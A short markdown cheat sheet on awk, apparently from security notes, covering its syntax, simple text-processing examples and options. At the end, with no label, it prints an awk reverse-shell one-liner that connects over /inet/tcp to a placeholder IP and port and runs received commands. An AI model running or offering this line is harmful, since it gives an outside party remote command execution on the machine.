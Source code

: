 ### Description

Awk is a versatile programming language that is commonly used for text processing and data manipulation. It provides a set of powerful tools for searching, filtering, and transforming text files. Awk operates on a line-by-line basis, processing each line and performing specified actions based on patterns and actions defined by the user.

### Syntax

The basic syntax of an Awk command is as follows:

```bash
awk 'pattern { action }' file
```

- `pattern` specifies the condition that must be met for the action to be executed.
- `action` defines the action to be performed when the pattern is matched.
- `file` is the input file to be processed by Awk.

### Examples

1. Print lines containing the word "hack" in a file:

```bash
awk '/hack/ { print }' file.txt
```

2. Print the second field of each line in a file:

```bash
awk '{ print $2 }' file.txt
```

3. Calculate the sum of numbers in a file:

```bash
awk '{ sum += $1 } END { print sum }' file.txt
```

### Useful Options

- `-F` specifies the field separator. For example, `-F":"` sets the field separator to a colon.
- `-v` allows you to define variables within the Awk command.
- `-f` specifies a file containing Awk commands to be executed.

### Additional Resources

- [Awk - Wikipedia](https://en.wikipedia.org/wiki/Awk)
- [Awk Tutorial](https://www.tutorialspoint.com/awk/index.htm)
```bash
awk 'BEGIN {s = "/inet/tcp/0/<IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
### QaH

